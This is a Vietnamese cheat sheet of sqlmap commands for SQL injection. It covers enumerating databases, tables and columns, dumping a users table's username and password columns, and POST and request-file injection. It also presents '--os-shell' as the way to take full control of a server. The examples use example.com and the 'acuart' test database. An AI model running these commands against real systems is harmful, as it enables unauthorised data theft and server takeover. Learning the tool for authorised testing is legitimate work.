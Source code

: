 **sqlmap -u "http://example.com/page.php?id=1" --batch**



**2. Lệnh Liệt Kê \& Thu Thập Thông Tin (Enumeration)**

* **--dbs:** Liệt kê tất cả các databases có trên hệ thống.
* 

**sqlmap -u "URL" --dbs**

* **--current-db:** Hiển thị tên của database hiện tại mà ứng dụng web đang sử dụng.
* **-D \[tên\_database] --tables:** Liệt kê tất cả các bảng (tables) trong một database cụ thể.

**sqlmap -u "URL" -D acuart --tables**

* **-D \[db] -T \[table] --columns:** Liệt kê tất cả các cột (columns) trong một bảng cụ thể.
* 

**sqlmap -u "URL" -D acuart -T users --columns**



**3. Lệnh Trích Xuất Dữ Liệu (Dumping)**

* **-D \[db] -T \[table] -C \[columns] --dump: "Dump"** (trích xuất) dữ liệu từ các cột bạn chỉ định.

**sqlmap -u "URL" -D acuart -T users -C "uname,pass" --dump**



Nếu bạn muốn lấy hết dữ liệu từ một bảng, chỉ cần bỏ -C.

**sqlmap -u "URL" -D acuart -T users --dump**



**4. Các Tùy Chọn Nâng Cao \& Hữu Ích**

* **--data:** Dùng cho các yêu cầu POST, khi dữ liệu được gửi đi trong thân của request (ví dụ: form đăng nhập).
* 

**sqlmap -u "http://example.com/login.php" --data="username=admin\&password=123"**

* **-r \[request\_file.txt]:** Đọc toàn bộ yêu cầu HTTP từ một file. Rất hữu ích khi làm việc với Burp Suite. Bạn chỉ cần lưu request vào file và đưa cho SQLMap.
* 

**sqlmap -r request.txt**

* **--os-shell:** Cố gắng có được một shell (giao diện dòng lệnh) trên hệ điều hành của máy chủ. Đây là mục tiêu cuối cùng, cho phép bạn kiểm soát hoàn toàn máy chủ.
* **--level / --risk:** Tăng mức độ kiểm tra. Mặc định là level=1 và risk=1. Tăng lên (--level=5 --risk=3) sẽ khiến SQLMap thử nhiều loại payload phức tạp hơn, tốn thời gian hơn nhưng có thể phát hiện các lỗ hổng khó tìm.
